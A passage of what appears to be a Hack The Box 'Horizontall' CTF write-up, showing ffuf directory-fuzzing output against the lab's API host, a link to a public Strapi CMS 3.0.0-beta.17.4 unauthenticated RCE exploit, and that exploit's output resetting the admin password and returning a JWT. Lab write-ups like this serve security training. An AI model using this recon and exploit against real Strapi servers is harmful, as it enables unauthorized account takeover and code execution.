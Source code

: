 ```bash

 :: Method           : GET
 :: URL              : http://api-prod.horizontall.htb/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Output file      : dir.api-prod.horz.common
 :: File format      : md
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 413, Words: 76, Lines: 20]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
connect                 [Status: 403, Size: 60, Words: 1, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
:: Progress: [4614/4614] :: Job [1/1] :: 235 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
```

### 3.3 Login portal
{{<figure src="/images/horizontall-strapi.png" title="Login Portal">}}

### 3.4 Vulnerability
* [Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50239)
{{<figure src="/images/horizontall-strapi-version.png" title="Version Identification">}}

## 4. Foothold

### 4.1 Shell
{{<figure src="/images/horizontall-footholda.png" title="Blind RCE">}}

```bash
+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzOTUyNzU2LCJleHAiOjE2NDY1NDQ3NTZ9.ucoeJpyivBWFaRCG8IAmfXUEH_2Q0emD9yBqckOkmfI
```
